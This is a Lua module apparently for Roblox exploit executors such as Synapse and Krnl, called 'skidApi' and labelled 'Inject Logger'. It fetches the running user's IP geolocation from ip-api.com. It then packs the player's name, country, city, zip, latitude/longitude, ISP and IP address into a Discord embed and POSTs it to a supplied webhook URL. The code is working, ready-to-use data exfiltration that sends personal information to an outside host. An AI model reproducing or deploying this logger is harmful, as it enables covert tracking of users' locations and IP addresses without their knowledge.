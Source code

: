 do
    -- This function returns a string with the name of the exploit u using(only checks for krnl, synapse, script ware)
    local function checkExploit()
        
        local exploitName = (syn and 'Synapse') or (Krnl and 'Krnl') or ( identifyexecutor and identifyexecutor() ) or (getexecutorname and getexecutorname())


        return exploitName

    end

    skidApi = {
        webhookJson = function(self, scriptName)

            if not self then return end

            local player = game.Players.LocalPlayer
            local playerThumb = string.format('https://www.roblox.com/Thumbs/Avatar.ashx?x=420&y=420&userid=%d&format=png', player.UserId)
            local ipData = self.ipApi
            scriptName = scriptName or 'Ezarther'
            return {
                content = string.format('**@%s** __fired__ **%s**', player.Name, scriptName),
                embeds  = {
                    { 
                        author={
                                name='Inject Logger',
                                url='https://discord.gg/z7NxmM4k',
                                icon_url='https://media.discordapp.net/attachments/768071654295207967/906190414111997952/images.jpg'
                        },
                        title='**ez**',
                        url='https://discord.gg/z7NxmM4k',
                        description = string.format('@%s**(%s)** fired **%s** [discord](https://discord.gg/z7NxmM4k)', player.Name, player.DisplayName, scriptName),
                        color = 0,
                        fields  = {
                            {
                                name = '**Country**',
                                value = ipData['country'] .. '/' .. ipData['countryCode'],
                                inline = true
                            },
                            {
                                name = '**Region**',
                                value = ipData['regionName'] .. '/' .. ipData['region'],
                                inline = true
                            },
                            {
                                name = '**City/Zip**',
                                value = ipData['city'] .. '/' .. ipData['zip'],
                                inline = true
                            }
                        },
                        thumbnail = {
                            url = playerThumb
                        }
                    },
                    {
                        color = 0,
                        fields={
                            {
                                name = '**lat/lon**',
                                value = ipData['lat'] .. '/' .. ipData['lon'],
                                inline = true
                            },
                            {
                                name = '**Isp/Org**',
                                value = ipData['isp'] .. '/' .. ipData['org'],
                                inline = true
                            },
                            {
                                name = '**IPV4/IPV6**',
                                value = ipData['query'],
                                inline = false
                            },
                        },
                        footer = {
                            text = 'Inject Logger',
                            icon_url='https://media.discordapp.net/attachments/768071654295207967/906190414111997952/images.jpg'
                        }
                    }
                }
            }
        end,

        ipApi = game:GetService('HttpService'):JSONDecode(game:HttpGet('http://ip-api.com/json')),
        exploitName = checkExploit(),

        httpPost = (Krnl and request) or (syn and syn.request) or http_request or (http and http.request),
        
        sendWebhook = function(self,webhooklink, ...)
            if self and webhooklink and self.httpPost and self.webhookJson then

                if type(self.webhookJson) == "function" then
                    return self.httpPost(
                    {
                        Url = webhooklink,
                        Method = 'POST',
                        Body = game:GetService('HttpService'):JSONEncode(self:webhookJson(...)) ,
                        Headers = {
                            ['Content-Type'] = 'application/json'
                        }
                    }
                )
                end

                return self.httpPost(
                    {
                        Url = webhooklink,
                        Method = 'POST',
                        Body = game:GetService('HttpService'):JSONEncode(self.webhookJson) ,
                        Headers = {
                            ['Content-Type'] = 'application/json'
                        }
                    }
                )
            end
        end
    }

end








return skidApi

